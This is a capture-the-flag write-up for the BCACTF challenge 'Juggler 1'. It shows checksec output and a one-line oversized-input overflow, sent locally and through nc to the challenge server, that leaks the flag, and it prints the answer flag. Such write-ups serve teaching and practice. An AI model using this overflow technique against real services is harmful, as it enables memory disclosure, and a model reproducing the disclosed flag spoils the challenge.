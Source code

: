 # Juggler 1 - 100 points
## Description
My friend here has got some issues... Mainly, he can't stop juggling.
P.S Dockerfile is provided but not necessary for Juggler

### Given assets
- `chall` - executable
- `nc challs.bcactf.com 32250` - string for connection
- `Dockerfile` - Dockerfile of the environment in which the exec is running

---
`checksec`
```shell
pwn checksec chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
All protections are enabled.

Running the executable
```shell
./chall
P.S the juggler animation is kind of tilted so you might need to look at it sideways.

Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
> ball
Give me something for my right hand:
> ball
Watch this!-----------------------------------------=--||
                    ball 3----\     __
                             O-|---<__
                    ball 3----/
-----------------------------------------=--||
                         3----\     __
                   ball      O-|---<__
                    ball 3----/
-----------------------------------------=--||
                    ball 3----\     __
                   ball      O-|---<__
                         3----/
-----------------------------------------=--||
                    ball 3----\     __
                             O-|---<__
                    ball 3----/
-----------------------------------------=--||
                         3----\     __
                   ball      O-|---<__
                    ball 3----/
Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
>
```
The challenge is hinting us for the left hand. So I tried to feed it with a big input.

```shell
python -c 'print("A"*1024 + "\n" + "A"*1024 + "\n")' | ./chall
```
And the program began an infinite loop. Maybe because the input is being read by a 
number of chars at a time, maybe 16.

But it strangely printed the local flag.

```shell
> Give me something for my right hand:
> Watch this!-----------------------------------------=--||
 AAAAAAAAAAAAAAAAAAAAAAA 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
 AAAAAAAAAAAAAAAAAAAAAAA 3----/
-----------------------------------------=--||
             AAAAAAAAAAA 3----\     __
AAAAAAAAAAAAFLAG{JUGGLER}
      O-|---<__
                         3----/
-----------------------------------------=--||
AAAAAAAAAAAAFLAG{JUGGLER}
 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
AAAAAAAAAAAAFLAG{JUGGLER}
 3----/
```

So I sent it to the server.
```shell
python -c 'print("A"*1024 + "\n" + "A"*1024 + "\n")' | nc challs.bcactf.com 32250
P.S the juggler animation is kind of tilted so you might need to look at it sideways.

Please help me, I am the juggler, but I can't stop juggling.
Give me something for my left hand (not too heavy though please, I injured it)
(or QUIT to quit):
> Give me something for my right hand:
> Watch this!-----------------------------------------=--||
 AAAAAAAAAAAAAAAAAAAAAAA 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
 AAAAAAAAAAAAAAAAAAAAAAA 3----/
-----------------------------------------=--||
             AAAAAAAAAAA 3----\     __
AAAAAAAAAAAAbcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}      O-|---<__
                         3----/
-----------------------------------------=--||
AAAAAAAAAAAAbcactf{juGGLy_Sup3R_JUgGLY_81520b089934c} 3----\     __
                             O-|---<__
             AAAAAAAAAAA 3----/
-----------------------------------------=--||
                         3----\     __
            AAAAAAAAAAA      O-|---<__
AAAAAAAAAAAAbcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}	 3----/
Please help me, I am the juggler, but I can't stop juggling.^C⏎
```
Voilá.

`bcactf{juGGLy_Sup3R_JUgGLY_81520b089934c}`
